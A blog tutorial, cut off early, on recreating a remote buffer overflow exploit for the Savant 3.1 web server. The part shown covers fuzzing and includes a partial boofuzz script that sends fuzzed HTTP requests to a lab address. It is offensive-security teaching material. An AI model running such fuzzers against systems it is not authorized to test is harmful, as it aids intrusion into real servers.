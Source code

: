 ```yaml
---
title: Savant 3.1 webserver buffer overflow exploit
author: Stipe Marinovic
date: 2020-07-24 23:00:00 +0800
categories: [Blogging, Tutorial, Exploit]
tags: [fuzzing, shellcoding, exploit]
toc: true
---
```


## Introduction ##

Next in a series of recreating (rewriting) remote buffer overflow exploits is Savant 3.1. 
Based on description from SourceForge: Savant is a freeware open source web server that runs on Windows 9x, ME, NT, 2000, 
and XP turning any desktop computer into a powerful web server. Application can be downloaded from: http://savant.sourceforge.net/. 
Vulnerability was originally discovered by muts (Mati Aharoni) years ago.


## Fuzzing ##

First step in buffer overflow exploit research and development is to find a way to crash the application. 
Once application is crashed, we can explore the way it was crashed and see if it can be exploited in useful way. 
For that purpose we are using fuzzer, which is an application used to generate various payload based on user specified template. 
There are more than few fuzzers available today such as: Spike, Sulley, Boofuzz,... 
In this walktrough we will be using python script with boofuzz module.  
  
When we use standard python script with boofuzz module and common http template, sadly, the application doesn't crash.

* Initial fuzzer
```
#!/usr/bin/python
import sys
from boofuzz import *

host = '172.16.24.213'
port = 80

def main():

   session = Session(target = Target(connection = SocketConnection(host, port, proto='tcp')))

   s_initialize("Sarvant GET")
   s_string("GET", fuzzable = False)
   s_delim(" ", fuzzable = False)
   s_string("/", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
   s_delim(" ", fuzzable = False)
   s_string("HTTP/1.1", fuzzable = False)
   s_string("\r\n", fuzzable = False)

   s_string("Host:", fuzzable =False)
   s_delim(" ", fuzzable = False)
   s_string("172.16.24.213", fuzzable = True)
   s_string("\r\n", fuzzable = False)

   s_string("User-Agent", fuzzable =False)
   s_delim(" ", fuzzable = False)
   s_string("FUZZ", fuzzable = True)
```